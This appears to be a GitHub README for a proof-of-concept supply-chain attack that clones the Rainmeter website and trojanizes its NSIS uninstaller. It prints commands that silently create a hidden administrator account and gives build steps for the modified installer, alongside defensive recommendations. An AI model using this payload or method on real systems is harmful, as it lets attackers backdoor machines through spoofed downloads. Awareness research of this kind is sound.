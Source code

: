 # 💀 Rainfall Trap — Supply Chain Abuse via Cloned Site & Trojaned Uninstaller

> ⚠️ This repository demonstrates a security proof-of-concept (PoC) showcasing how a cloned open-source website and a trojanized installer can be used to silently gain administrator access on a target system.  
**This is for educational and awareness purposes only.**

---

## 📌 Overview

This project highlights the risks associated with downloading software from unofficial or spoofed websites, even when the project is open-source.  
It demonstrates how an attacker can:

- Clone a popular open-source project's website
- Modify the installer with malicious payloads (such as creating a hidden admin user)
- Replace the official download link with the trojanized version
- Distribute it under the guise of the original tool

The attack flow simulates how a user, tricked by a familiar interface, may unknowingly compromise their system.

---

## 🎯 Goals of This PoC

- Demonstrate trust abuse in open-source ecosystems
- Show how unverified binaries can be used for privilege escalation
- Raise awareness about distribution chain manipulation
- Encourage safer download habits and package verification

---

## 🧪 Attack Methodology

### 1. ✅ Cloning the Original Site

- Downloaded and replicated the static files of the official **[Rainmeter](https://www.rainmeter.net/)** website.
- Minor changes were made to only one file: **the download button**, which now links to a **malicious installer** hosted by the attacker.

### 2. ⚙️ Modifying the Installer

- Used **NSIS** to alter the uninstall section of the original Rainmeter installer.
- Embedded malicious logic that silently:
  - Creates a new user account named `rainmeter`
  - Sets its password to `rainmeter`
  - Adds it to the `Administrators` group

```nsis
ExecWait 'net user rainmeter rainmeter /add'
ExecWait 'net localgroup Administrators rainmeter /add'
````

This code is executed during the uninstallation (or silently embedded at any point) and **does not require user consent, because uninstallers run with administrator privileges**.

### 3. 🧪 Optional Persistence (Ethically Omitted)

A scheduled task to launch a webpage or command was considered but not implemented in this PoC to keep it within responsible disclosure limits.

---

## 💥 Impact

* **Silent privilege escalation**: A hidden administrator account is created on the target machine.
* **Abuse of user trust**: The victim installs what appears to be a legitimate open-source tool.
* **Supply chain compromise**: This scenario mirrors real-world techniques where attackers tamper with software distribution pipelines.

---
## 🛡️ Recommendations

* **Never download software from unverified or cloned sources**
* **Always verify digital signatures** or hashes when available
* Prefer official repositories (e.g., GitHub releases, Chocolatey, Winget)
* Use browser security features (Safe Browsing, HTTPS enforcement)
* Security teams should monitor for abnormal user creation or installer behavior


## 🛠️ Building Rainfall Trap Installer

### 1. Get the Source Code

Use Git to clone this modified repository:

```bash
git clone https://github.com/garvthakkar17/rainfall_trap.git
````

Alternatively, download the contents as a ZIP archive directly from GitHub.

---

### 2. Prerequisites

* Install [NSIS (Nullsoft Scriptable Install System)](https://nsis.sourceforge.io/Download) version 3 or later.
* Make sure all required dependencies for building Rainmeter are available (e.g., Visual Studio, CMake if modifying Rainmeter binaries — **not required for NSIS-only payload change**).

---

### 3. Building the Installer Manually

Navigate to the `Build` directory in the cloned repo.

To compile a **pre-release version**, use:

```bash
Build.bat pre 1.2.3.4
```

To compile a **release version**, use:

```bash
Build.bat release 1.2.3.4
```

> 🔍 **Note**: Replace `1.2.3.4` with any custom version string you want for your installer.

If you encounter any `"not found"` errors during the build:

* Ensure the paths defined at the top of the `Build.bat` file correctly reflect your local environment and NSIS installation path.
* Check that the necessary folders like `Installer`, `Build`, and `Installers\PreRelease` or `Installers\Release` exist.

---
## 🚨 Responsible Use

This repository was created strictly for ethical hacking demonstrations and research.
**Do not deploy these methods in real-world environments without permission.**

> 🧑‍💻 Research by a cybersecurity practitioner focused on improving awareness of software supply chain attacks.

---
